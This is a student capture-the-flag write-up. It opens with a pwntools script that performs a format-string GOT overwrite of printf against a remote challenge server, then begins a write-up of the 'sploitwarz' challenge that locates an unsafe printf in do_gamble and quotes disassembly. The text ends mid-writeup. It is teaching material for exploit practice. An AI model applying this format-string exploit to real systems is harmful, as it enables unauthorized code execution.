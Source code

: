 ```
def gen_format_writes(to_write, setup_len, stack_offset):
    payload = b''
    n_val = [setup_len]
    for i in range(4):
        n_val += [get_n(to_write[i], sum(n_val[:i+1]), 8)]
        payload += '%{}c'.format(n_val[i+1]).encode()
        payload += '%{}$hhn'.format(stack_offset + i).encode()
    return payload

p = remote('plsdonthaq.me', 4003)

printf_got_addr = 0x08049c18
win_addr = [c for c in p32(0x08048536)]
print(win_addr)

payload = gen_addrs(printf_got_addr)

setup_len = len(payload)

payload += gen_format_writes(win_addr, setup_len, 3)

print(payload)

p.sendline(payload)

p.interactive()
```

sploitwarz
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
Having had practice with calculating offsets from a leaked address and format string exploits, I don't think the exploit making for this challenge was that hard. For me what was really hard was finding a vulnerability in a large(r) code base and not getting distracted by confusing details. I initially had no clue where to even begin. When I started to gain some clarity I came to realise I just had to look for a single printf reference that took in only 1 argument which was user defined input (which was in `do_gamble`). But then I got confused by all the complexities of the floating point manipulations.
Eventually I remembered what Adam said in a lecture: don't look at the individual instruction but look at whole chunks of code and what they mean. Given the function is `do_gamble` I used a script to automate the gamble attempts and as expected eventually the would be a success and the vulnerable `printf` is reached.

Script/Command used (Writeup)
------------------
We identify a vulnerability in the `do_gamble` function after a successful gamble:
```
sub     esp, 0xc
lea     eax, [ebx-0x179b]  {data_1d7d, "Well done, "}
push    eax  {data_1d7d, "Well done, "}
call    printf
add     esp, 0x10
mov     eax, dword [ebp+0x8 {arg1}]
add     eax, 0x14
sub     esp, 0x4
push    0x100 {var_248+0x4}
push    eax {var_248}
lea     eax, [ebp-0x234 {var_238}]
push    eax {var_238} {var_24c_1}
call    strncpy
add     esp, 0x10
sub     esp, 0xc
```